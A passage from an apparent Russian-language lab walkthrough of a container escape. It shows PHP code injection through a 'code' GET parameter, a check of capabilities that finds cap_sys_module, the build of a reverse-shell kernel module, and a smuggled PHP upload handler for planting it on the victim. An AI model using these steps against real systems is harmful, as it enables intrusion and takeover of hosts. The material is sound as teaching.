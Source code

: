 Теперь посмотрим доступные разрешения:

```
vagrant@hacker:~$ curl -G 192.168.56.4 --data-urlencode "code=system('capsh --print');"
  <h1> Hello world!</h1>
  Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
  Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
  Securebits: 00/0x0/1'b0
   secure-noroot: no (unlocked)
   secure-no-suid-fixup: no (unlocked)
   secure-keep-caps: no (unlocked)
  uid=0(root)
  gid=0(root)
  groups=
  <br>
```

Наличие в выводе `cap_sys_module` говорит о том что мы можем воспользоваться специально подготовленным модулем для
запуска revers shell на атакуемой системе.

Соберём специально подготовленный модуль для получения shell на хостовой системе.

Так как хосты `victim` и `hacker` имеют одну и туже ОС, то мы можем откомпилировать модуль на хосте `hacker` и записать
его на хост
`victim` через RCE. Для сборки модуля выполним следующие команды:

```
vagrant@hacker:~$ cd /vagrant/hacker
vagrant@hacker:/vagrant/hacker$ sudo apt-get install linux-headers-`uname -r`
vagrant@hacker:/vagrant/hacker$ make
  make -C /lib/modules/4.19.0-9-amd64/build M=/vagrant/hacker modules
  make[1]: Entering directory '/usr/src/linux-headers-4.19.0-9-amd64'
    CC [M]  /vagrant/hacker/reverse-shell.o
    Building modules, stage 2.
    MODPOST 1 modules
    CC      /vagrant/hacker/reverse-shell.mod.o
    LD [M]  /vagrant/hacker/reverse-shell.ko
  make[1]: Leaving directory '/usr/src/linux-headers-4.19.0-9-amd64'
```

Загрузим эксплоит на хост `victim`. Для этого передадим файл в теле HTTP запроса. Но так как наш эксплоит работает с
аргументом `code`, который передается только в качестве GET аргумента. И целевая программа абсолютно не умеет
обрабатывать POST аргументы. Поэтому мы сформируем линк в котором в качестве значения аргумента `code` укажим программу,
которая будет обрабатывать POST аргументы. Текст программы будет выглядить так:

```php
move_uploaded_file($_FILES['shell']['tmp_name'], 'reverse-shell.ko');
```
